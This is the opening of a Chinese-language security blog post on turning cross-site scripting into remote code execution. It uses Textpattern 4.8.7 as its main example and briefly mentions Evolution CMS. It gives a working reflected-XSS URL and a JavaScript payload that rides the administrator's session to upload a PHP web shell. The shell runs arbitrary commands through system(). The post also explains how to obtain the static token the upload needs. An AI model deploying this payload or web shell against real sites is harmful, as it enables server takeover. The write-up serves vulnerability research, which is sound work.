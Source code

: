 
浅谈 xss2rce 的一些实现

- - -

## 浅谈 xss2rce 的一些实现

### Background

翻了翻我以前挖的漏洞和一些 ctf 题目，发现都不约而同出了这么一个思路，xss2rce，我觉得这个点比较有意思的，总结了几个漏洞分析把它记录了下来

### xss2rce 前世

在很多情况，在可以执行 js 代码的前提下，我们可以通过编写 html+js，使用 xmlhttprequest 等发包方法来实现上传文件，或者反弹命令等进行 rce

在 Textpattern 4.8.7 中，

```bash
/textpattern/index.php?Body=A+test+article.+<img+src=+onerror=alert(1)%3>&app_mode=async&view=preview
```

Body 字段没有进行过滤，导致我们可以进行 xss

本身 Textpattern 是一个文本管理的系统，所以管理员是可以进行一些诸如文件上传之类的操作

```bash
<script>
function uploadWebShell(token) {
    fetch('/textpattern/index.php',{
        method: 'POST',
        headers: {
            'Content-Length': '667', 
            'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryozIzNEFsufRB6LpY', 
            'Connection': 'close'
        },
        credentials: 'include',
        body: '------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="theplugin"; filename="csrfshell.php"\x0d\x0aContent-Type: application/octet-stream\x0d\x0a\x0d\x0a<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="install_new"\x0d\x0a\x0d\x0aUpload\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="event"\x0d\x0a\x0d\x0aplugin\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="step"\x0d\x0a\x0d\x0aplugin_upload\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY\x0d\x0aContent-Disposition: form-data; name="_txp_token"\x0d\x0a\x0d\x0a'+token+'\x0d\x0a------WebKitFormBoundaryozIzNEFsufRB6LpY--\x0d\x0a'
    });
}
uploadWebShell(token);
</script>
```

我们构造如上数据包发送给管理员就会上传一个 shell，这个漏洞有一个不一样的点在于需要一个 token 作验证，但不幸的是 token 是静态的，我们可以通过访问首页记录 token

同样的在 Evolution CMS 中也曾出现过这样的问题，不一样的只是他功能点不能上传文件但是可以修改文件
